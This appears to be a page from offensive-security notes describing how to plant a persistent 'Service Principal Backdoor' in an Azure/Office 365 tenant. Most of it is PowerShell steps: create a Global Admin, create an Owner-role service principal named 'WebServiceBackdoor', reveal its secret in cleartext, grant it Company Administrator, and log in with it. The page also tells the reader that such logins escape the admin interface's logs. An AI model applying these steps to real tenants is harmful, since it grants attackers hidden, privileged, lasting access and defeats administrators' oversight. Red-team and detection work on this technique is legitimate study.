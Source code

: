 # Service Principal Backdoor

## Service Principal Backdoor

Almost 200 SPN enabled by default on O365.

Service Principal are just account like any other accounts : can login using login/password.

**-** To create a Service Principal, a Global Admin\(ie company admin account\) must be used.

- Service Principal login attempt are not logged on the interface:  just perfect for a backdoored account !

#### Global Admin account

* Create a new user and add a Global Admin role on it :

![](../../../../../.gitbook/assets/13c7afa4319d4d6fb1682ef0bc8f0706.png)

![](../../../../../.gitbook/assets/553697568c11436d884518a673810b2d.png)

* Then on the subscription IAM menu , add this account as the subscription owner

![](../../../../../.gitbook/assets/08c59ce714664727be919ec4652eccfb.png)

### Create a Service Principal

* Import the modules

```csharp
PS C:\Users\b3v1l\Desktop>Import-Module az PS C:\Users\b3v1l\Desktop> Import-Module MSOnline
```

* Login with the Global Admin account

```csharp
$cred = Get-Credential
```

![](../../../../../.gitbook/assets/2e2d9bbfcff64b3c8334e05e12310d88.png)

Then connect using the following commands

```csharp
Connect-AzAccount -Credential $cred 
Connect-MsolService -Credential $cred
```

![](../../../../../.gitbook/assets/b5704740761e4050a485754896a0e71f.png)

* Get the subscription ID 

```csharp
Get-AzSubscription
```

* In case of multi subscription in the same tenant, we can set the subscription ID using the following command :

```csharp
Set-AzContext -SubscriptionId REDACTED
```

![](../../../../../.gitbook/assets/aec92c67eaee4299ade0e94efc02ffbf.png)

* Create a new SPN
  * **Display** name will be listed on the **webconsole**.
  * ApplicationID = **username**

```csharp
$spn = New-AzAdServicePrincipal -DisplayName "WebServiceBackdoor" -Role Owner
```

![](../../../../../.gitbook/assets/06e1a9f3c4b845ab8657bf8d3b58602a.png)

* Get a unsecure SPN password \(cleartext\)

```csharp
$BSTR = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($spn.Secret)
$UnsecureSecret = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($BSTR)
$UnsecureSecret
```

![](../../../../../.gitbook/assets/1b9674db1b1b46d0a93f30104e0aea41.png)

#### Set up an Admin Role on the SPN

```csharp
$sp = Get-MsolServicePrincipal -AppPrincipalId REDACTED
$role = Get-MsolRole -RoleName "Company Administrator"
Add-MsolRoleMember -RoleObjectId $role.ObjectId -RoleMemberType ServicePrincipal -RoleMemberObjectId $sp.ObjectId
```

![](../../../../../.gitbook/assets/60f14a3aa8db4c3da700713f96accf76.png)

* List Global Admin accounts

```csharp
Get-MsolRoleMember -RoleObjectId $role.ObjectId
```

![](../../../../../.gitbook/assets/f8e5dc266be64f0e93df303a81df319a.png)

### Login with the SPN account

```csharp
Import-Module Az $cred = Get-Credential
```

![](../../../../../.gitbook/assets/29da69bcc7a04a2b8ae63386cd108667.png)

```csharp
Connect-AzAccount -Credential $cred -Tenant “tenant ID" -ServicePrincipal
```

![](../../../../../.gitbook/assets/c5c806a281ae47a9af896c757ef4c700.png)

#### Note:

This can be noisy ...

A better way will be to add the SPN to the "User Account Administrator" group. This will allow the SPN to create new accounts to authenticate.

